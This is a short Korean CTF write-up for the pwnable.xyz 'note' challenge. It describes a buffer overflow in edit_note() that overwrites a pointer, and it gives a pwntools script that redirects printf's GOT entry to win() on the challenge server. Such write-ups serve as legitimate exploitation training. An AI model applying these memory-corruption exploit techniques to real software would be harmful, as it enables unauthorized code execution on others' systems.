 # [pwnable.xyz] note

> Note taking 101

## Bug

![image](https://github.com/user-attachments/assets/ead3d470-839e-4f49-8509-46856322206d)

`edit_note()`에서 길이 제한이 없어서 `note`에 buffer overflow가 발생한다.

![image](https://github.com/user-attachments/assets/c1181d50-c267-4b42-8fb0-7faa6a483ef6)

이를 이용하여 `note` 뒤쪽의 `desc`에 임의의 주소를 넣을 수 있다.

![image](https://github.com/user-attachments/assets/4f07d4ce-d26f-480e-9499-87f09aeb3d4c)

`desc`에 넣은 주소에 `0x20`바이트만큼 임의의 값을 쓸 수 있다.

## Exploit

`printf()`의 GOT를 `win()`의 주소로 덮으면 `print_menu()` 내부에서 `printf()`가 호출되어 플래그를 획득할 수 있다.

```python
from pwn import *

r = remote("svc.pwnable.xyz", 30016)

sla = r.sendlineafter
sa = r.sendafter

win = 0x40093C
printf_got = 0x601238

sla(b"> ", b"1")
sla(b"Note len? ", str(0x28).encode())
sa(b"note: ", b"a" * 0x20 + p64(printf_got))

sla(b"> ", b"2")
sa(b"desc: ", p64(win))

r.interactive()
```

![image](https://github.com/user-attachments/assets/93c603f2-25f7-4bc5-b0ef-ed82d6057d54)
